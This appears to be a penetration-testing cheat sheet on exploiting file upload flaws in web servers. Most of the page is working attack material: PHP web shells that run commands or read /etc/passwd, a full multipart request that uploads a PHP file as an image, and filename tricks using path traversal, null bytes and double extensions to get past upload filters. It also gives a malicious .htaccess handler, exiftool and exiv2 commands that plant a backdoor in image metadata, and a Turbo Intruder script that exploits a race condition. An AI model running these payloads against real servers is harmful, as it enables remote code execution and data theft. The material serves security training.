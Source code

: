 # ⭕ File Upload

When a web server allows users to upload files to its filesystem without validating

<mark style="color:purple;">**"Content-Type" header:**</mark>

* simple text like name, address: "application/x-www-form-url-encoded"
* large amounts of binary data, like image or a PDF: "multipart/form-data"

<mark style="color:purple;">**"Content-Disposition" header:**</mark>

* If request message body is split into separate parts, each part contains a "Content-Disposition" header, which provides some basic information about the input field. and it has a "Content-Type" header which tells the server the MIME type of the data that was submitted using this input.

## <mark style="color:red;">Exploiting</mark>

### <mark style="color:orange;">PHP web shell upload</mark>

```http
// Send in a HTTP request body
<?php echo file_get_contents('/path/to/target/file'); ?>
```

```
// Send in a HTTP request body
<?php echo system($_GET['command']); ?>

// Usage in HTTP GET request
GET /example/exploit.php?command=id HTTP/1.1 
```

**Example**

```http
// Edit HTTP request with "BurpSuit Proxy"

POST /my-account/avatar HTTP/1.1
Host: test.net
LOPLOP
Content-Type: multipart/form-data; boundary=---------------------------4714704787410783474211833593
Content-Length: 523
LOPLOP
-----------------------------4714704787410783474211833593
Content-Disposition: form-data; name="avatar"; filename="f.php"
Content-Type: image/png

<?php echo file_get_contents('/etc/passwd'); ?>
-----------------------------4714704787410783474211833593
Content-Disposition: form-data; name="user"

TEST
-----------------------------4714704787410783474211833593
```

### <mark style="color:orange;">Web shell upload via path traversal</mark>

```
// Send file upload request:
Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
```

### <mark style="color:orange;">Overriding the server configuration</mark>

&#x20;Load a directory-specific configuration from a file and edit it:\
\- IIS Server: "web.config"\
\- Apache Server: ".htaccess"

### <mark style="color:orange;">Obfuscating file extensions</mark>

Most exhaustive blacklists can potentially be bypassed using classic obfuscation techniques

**Example**\
In the "Content-Disposition" header, change the value of the filename parameter to:&#x20;

```
Content-Disposition: form-data; name="avatar"; filename="exploit.php%00.jpg"
```

or

```
- exploit.pHp
- exploit.php.jpg
- exploit.php.
- exploit.p.phphp 
- using the URL encoding (or double URL encoding) for dots: exploit%2Ephp
- Add semicolons or URL-encoded null byte characters before the file extension: exploit.asp;.jpg or exploit.asp%00.jpg
- using multibyte unicode characters like xC0 x2E, xC4 xAE or xC0 xAE
```

### <mark style="color:orange;">Web shell upload via extension blacklist bypass (upload malicious .htaccess file)</mark>

Send request which upload file to server in Burp Repeater then:

* Change the value of the "**filename**" parameter to "**.htaccess**"
* Change the value of the "**Content-Type**" header to "**text/plain**"
* Replace payload with\
  `AddType application/x-httpd-php .l33t`
* Resend the request with your payload and its "**filename**" should be "**exploit.l33t**"
* Now web shell was successfully uploaded.

### <mark style="color:orange;">Remote code execution via polyglot web shell upload</mark>

```
// This adds your PHP payload to the image's Comment field

$ exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/path/secret_file') . ' END'; ?>" icon.png -o polyglot.php
$ exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
```

### <mark style="color:orange;">Exploiting file upload race conditions</mark>

Create a polyglot PHP/JPG file that is fundamentally a normal image, but contains your PHP payload in its metadata

**Example**

As you can see from the source code above, the uploaded file is moved to an accessible folder, where it is checked for viruses. Malicious files are only removed once the virus check is complete. This means it's possible to execute the file in the small time-window before it is removed.\
\
To solve this challenge, we can use **Turbo Intruder**. Turbo Intruder is a Burp Suite extension for sending large numbers of HTTP requests and analyzing the results

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''  # Post web shell to run your payload

    request2 = '''<YOUR-GET-REQUEST>'''    # Get web shell output
    
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    engine.openGate('race1')
    engine.complete(timeout=60)

def handleResponse(req, interesting):
    table.add(req)

```

### <mark style="color:orange;">Exploiting file upload vulnerabilities without remote code execution</mark>

#### <mark style="color:green;">Uploading malicious client-side scripts</mark>

If you can upload HTML files or SVG images, you can potentially use tags to create stored XSS payloads.

#### <mark style="color:green;">Exploiting vulnerabilities in the parsing of uploaded files</mark>

You know that the server parses XML-based files, such as Microsoft Office .doc or .xls files, this may be a potential vector for XXE injection attacks.

